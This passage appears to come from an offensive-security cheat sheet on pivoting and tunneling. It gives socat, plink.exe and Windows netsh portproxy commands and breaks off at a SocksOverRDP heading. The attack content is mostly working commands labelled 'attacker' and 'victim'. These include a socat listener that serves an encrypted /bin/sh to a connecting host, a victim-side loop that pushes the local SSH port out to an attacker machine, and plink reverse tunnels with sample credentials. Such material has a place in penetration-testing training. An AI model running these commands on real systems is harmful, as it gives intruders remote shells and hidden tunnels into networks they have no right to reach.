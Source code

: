 ```bash
attacker-listener> socat OPENSSL-LISTEN:433,reuseaddr,cert=server.pem,cafile=client.crt EXEC:/bin/sh
victim> socat STDIO OPENSSL-CONNECT:localhost:433,cert=client.pem,cafile=server.crt
```

### Remote Port2Port

Connect the local SSH port (22) to the 443 port of the attacker host

```bash
attacker> sudo socat TCP4-LISTEN:443,reuseaddr,fork TCP4-LISTEN:2222,reuseaddr #Redirect port 2222 to port 443 in localhost
victim> while true; do socat TCP4:<attacker>:443 TCP4:127.0.0.1:22 ; done # Establish connection with the port 443 of the attacker and everything that comes from here is redirected to port 22
attacker> ssh localhost -p 2222 -l www-data -i vulnerable #Connects to the ssh of the victim
```

## Plink.exe

It's like a console PuTTY version ( the options are very similar to an ssh client).

As this binary will be executed in the victim and it is an ssh client, we need to open our ssh service and port so we can have a reverse connection. Then, to forward only locally accessible port to a port in our machine:

```bash
echo y | plink.exe -l <Our_valid_username> -pw <valid_password> [-p <port>] -R <port_ in_our_host>:<next_ip>:<final_port> <your_ip>
echo y | plink.exe -l root -pw password [-p 2222] -R 9090:127.0.0.1:9090 10.11.0.41 #Local port 9090 to out port 9090
```

## Windows netsh

### Port2Port

You need to be a local admin (for any port)

```bash
netsh interface portproxy add v4tov4 listenaddress= listenport= connectaddress= connectport= protocol=tcp
# Example:
netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=4444 connectaddress=10.10.10.10 connectport=4444
# Check the port forward was created:
netsh interface portproxy show v4tov4
# Delete port forward
netsh interface portproxy delete v4tov4 listenaddress=0.0.0.0 listenport=4444
```

## SocksOverRDP & Proxifier

You need to have **RDP access over the system**.\
Download:
